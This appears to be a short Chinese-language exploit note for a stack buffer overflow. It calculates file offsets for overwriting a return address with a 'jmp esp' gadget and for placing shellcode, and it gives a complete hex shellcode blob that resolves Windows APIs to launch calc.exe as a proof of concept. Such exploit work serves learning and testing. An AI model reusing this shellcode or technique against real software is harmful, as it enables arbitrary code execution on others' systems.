

在文件中需要改成00000000 的地址为 0x139748 - 0x1396bb + 0x620 =  0x6ad

在文件中需要改成 0x7C86467B jmp esp的地址为 0x139720 - 0x1396bb + 0x620  =  0x685

shellcode需要插到0x6ad + 0x2c = 0x6d9的位置

```
动态找api弹计算机shellcode:
33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD233C951682E6578656863616C638BDC6A0553FFD0
```





